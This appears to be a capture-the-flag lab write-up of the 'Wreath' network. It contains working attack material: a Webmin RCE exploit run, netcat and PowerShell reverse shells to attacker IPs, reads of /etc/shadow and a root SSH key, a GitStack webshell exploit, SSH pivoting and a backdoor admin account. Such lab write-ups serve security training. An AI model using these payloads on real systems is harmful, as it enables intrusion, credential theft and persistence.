# WREATH

**TARGET IP**: 10.200.73.200

## WEBSERVER ENUMERATION
Scan first 15000 ports<br>
Host was blocking ping probes so had to add -Pn flag (port scan only)
```
nmap -sC -sV -p 1-15000 -oN nmap.txt 10.200.73.200
```



**OPEN PORTS**:<br>
22 (OpenSSH 8.0),<br>
80 (Apache httpd 2.4.37),<br>
443 (Apahe httpd 2.4.37),<br>
10000 (http MiniServ 1.890)

Try to access http://10.200.73.200 but get redirected to http://thomaswreath.thm

Add new url to /etc/hosts
```
echo "10.200.73.200 thomaswreath.htm" >> /etc/hosts
```



Found phone number and email<br>
PHONE NUMBER: +447821548812<br>
EMAIL: me@thomaswreath.thm

After searching online it looks like Miniserv 1.890 is vulnerable to remote code execution (CVE-2019-15107)



## WEBSERVER EXPLOITATION

Clone to exploit git repo
```
git clone https://github.com/MuirlandOracle/CVE-2019-15107
```

Run the script
```
cd CVE-2019-15107
python3 CVE-2019-15107.py 10.200.73.200
whoami
```



Now we can try and start a reverse shell session from the webserver to our machine

Start listener on host
```
nc -lnvp 4444
```

Start reverse shell
```
shell
10.50.66.197
4444
```



Stabalize the shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg # after hitting ctrl+z
```

Now lets get the password hash for the root user
```
cat /etc/shadow
```

**ROOT USER PASSWORD HASH**: $6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1

Find ssh keys to the root account
```
cat /root/.ssh/id_rsa
```

Now we can copy this key and save it onto a file on the host machine<br>
Make sure to change permissions on this key copy
```
firewall-cmd --zone=public --add-port 2345/tcp # open port in firewall
python3 -m http.server 2345
```
```
curl http://10.200.73.200:2345/id_rsa > id_rsa
chmod 600 id_rsa
```

Connect to the webserver through ssh
```
ssh root@10.200.73.200 -i id_rsa
```

	

## PIVOTING

Generate a new ssh key on your host machine
```
ssh-keygen
cat ~/.ssh/id_rsa.pub
```

Copy the public key and add it to the authorized_keys file
```
echo "command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty" > ~/.ssh/authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCTEh6d1nC+kNjeHsfyG8UujCtl2hinEhfh2GOVUV4pRBAdO9SdtNCsC8ynRlW7wleXYHRTM1a3N7sMXxCCmK5wOn/0gkXKwFosa/TNPx2/V7a1JheezMovPDF/yVCxqU92vRwP7ZTXTdJRGvIk7I9OPH6FEm2/iWVKvI193bbaMsLoMA8rHxP1IptINUb1zm6fCplDf+/ViP7g9rVdtxGNy40FxTSENLRu5eonRWifDg3ZrOr8s0HQT8lbcoK6p5Zr3fHvosLUF3Ry0QzqJn0t0FTs8mvijQha26WetRdZzjPbR71YjaNy7sAkUQnR+f7g4vPh7GWUxahzle4WH0u2Xo2klVdTVSY6my4t1h3qdqi58ueXBJ6Iaplw/2xVc4qospTFNjbQYsoi2Z+RgOg3U/+f95p+ynFn1T0D3nKz23eKzVx6NrhJewiqVoJpn6rTOxACEr/h6g2Wh/KkyJQ/hGEl/H+JCFm9G9wNPgO2yzS80vHSRmnagkhDgf37x08= kali@X3N" >> ~/.ssh/authorized_keys
```



Make sure ssh server is running on host machine
```
sudo systemctl start ssh
sudo systemctl status ssh
```



Now we need to copy over our private key to the target machine
```
scp ~/.ssh/id_rsa root@10.200.73.200:~/ # execute from target machine
```

Example usage of ssh for port forwarding, proxies, & reverse connections

**Port Forwarding**<br>
LOCAL_PORT is the machine we have compromised<br>
TARGET_IP is the machine we want to pivot to<br>
-fN: backgrounds the shell and tells ssh not to execute any further commands
```
ssh -L LOCAL_PORT:TARGET_IP:TARGET_PORT USER@LOCAL_IP -fN
```
This will open LOCAL_PORT on compromised machine and forward all traffic to that port to TARGET_IP:TARGET_PORT

**Proxies**<br>
LOCAL_PORT is a port on the attacking machine<br>
TARGET_IP is the machine we have compromised
```
ssh -D LOCAL_PORT USER@TARGET_IP -fN
```
This will open LOCAL_PORT on the attacking machine and proxy all the traffic through TARGET_IP which is the compromised machine

**Reverse Connections**<br>
LOCAL_PORT is a port on the compromised machine where we have a shell<br>
TARGET_IP is the machine we want to access<br>
ATTACKING_IP is the attacking machine<br>
-i will allow ssh authentication with a private key<br>
```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USER@ATTACKING_IP -i KEYFILE -fN
```
TARGET_IP:TARGET_PORT is going to be accesible on the compromised machine on localhost:LOCAL_PORT<br>
Exact same as port forwarding but the copromised machine connects to the attacking machine instead of the other way around<br>

Reverse connections are good if there is a firewall blocking incoming traffic to the network

First we need to get the nmap static binary from https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap?raw=true

Now we can copy over the nmap binary through ssh
```
scp -i id_rsa -v nmap-N3ur0t1c root@10.200.73.200:~/
```

Run the nmap scan
```
./nmap -sn 10.200.73.0/24 -oN scan-N3ur0t1c
```



**ALIVE HOSTS**: 10.200.73.1 (gateway), **10.200.73.100**, **10.200.73.150**, 10.200.73.250 (openvpn server), 10.200.73.200 (compromised machine)

Run a port scan on the 2 target hosts
```
nmap -Ss 10.200.73.100,150
```



It looks like only 10.200.73.150 is accesible from this machine

**OPEN PORTS**: 80 (http), 3389 (ms-wbt-server), 5985 (wsman)

Now use sshuttle to create a vpn to connect to this network
```
sshuttle -r root@10.200.73.200 --ssh-cmd "ssh -i id_rsa -v" -x 10.200.73.200 10.200.73.0/24
```


or we could also use port forwarding to access the webserver on 10.200.73.150
```
ssh -L 5555:10.200.73.150:80 root@10.200.73.200 -i id_rsa -fNv
```

Go to localhost:5555 (10.200.15.150 for sshuttle) in attacking machine's browser to access the website



Loos like it is using python django to run this website

Lets try those urls given

localhost:5555/registration/login brings up a login page



localhost:5555/gitstack is the same

Find exploit for gitstack
```
searchsploit gitstack
```


Copy exploit and convert to linux format
```
searchsploit -m 43777
dos2unix ./43777.py
```

Since this is a python2 exploit (print statements don't have ()), we need to add this to the top of the file
```
#!/usr/bin/python2
```
This allows us to run it without using 
```
python2 43777.py
```

We can also change the ip var in the script to localhost:5555 (10.200.15.150 for sshuttle) and also change the exploit.php file name to exploit-N3ur0t1c.php at the bottom

Run the script
```
./4377.py
```



This is a windows machine and we have the highest privileges possible

Since this script uploaded a webshell to the server we can just use that to execute further commands
```
curl -X POST http://localhost:5555/web/exploit-N3ur0t1c.php -d "a=hostname"
curl -X POST http://localhost:5555/web/exploit-N3ur0t1c.php -d "a=systeminfo"
```

hostname: git-serv<br>
OS: windows server 2019<br>
user: nt authority\system

Now we need to check if this machine can connect to the internet

Start network listener on attacking machine
```
tcpdump -i tun0 icmp
```

Send ping to attacking machine
```
curl -X POST http://localhost:5555/web/exploit-N3ur0t1c.php -d "a=ping -n 3 10.50.66.197"
```



No outside access allowed

We will need to set up a listener on 10.200.73.200

Open port in firewall on the first compromised machine
```
firewall-cmd --zone=public --add-port 15111/tcp
```

Now we need to get the netcat static binary from https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat and copy it over to the compromised machine
```
scp -i id_rsa -v nmap-N3ur0t1c root@10.200.73.200:~/
```

Run ncat
```
ssh root@10.200.73.200 -i id_rsa
chmod +x ncat-N3ur0t1c
./ncat-N3ur0t1c -lnvp 15111
```

Send powershell reverse shell to target windows machine<br>

POST data (need to encode)
```
a=powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.73.200',15111);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```



Create a root account on windows machine
```
net user N3ur0t1c hello12321 /add
net localgroup Administrators N3ur0t1c /add
net localgroup "Remote Management Users" N3ur0t1c /add
net user N3ur0t1c
```



Now we can access this machine using WinRM
```
ssh -L 7777:10.200.73.150:58950 root@10.200.73.200 -i id_rsa -fN
evil-winrm -u N3ur0t1c -p hello12321 -i 127.0.0.1 -P 7777
```

This method is not working so lets try sshuttle to create a vpn to connect to this network
```
sshuttle -r root@10.200.73.200 --ssh-cmd "ssh -i id_rsa -v" -x 10.200.73.200 10.200.73.0/24
```

Now use evil-winrm
```
evil-winrm -u N3ur0t1c -p hello12321 -i 10.200.73.150
```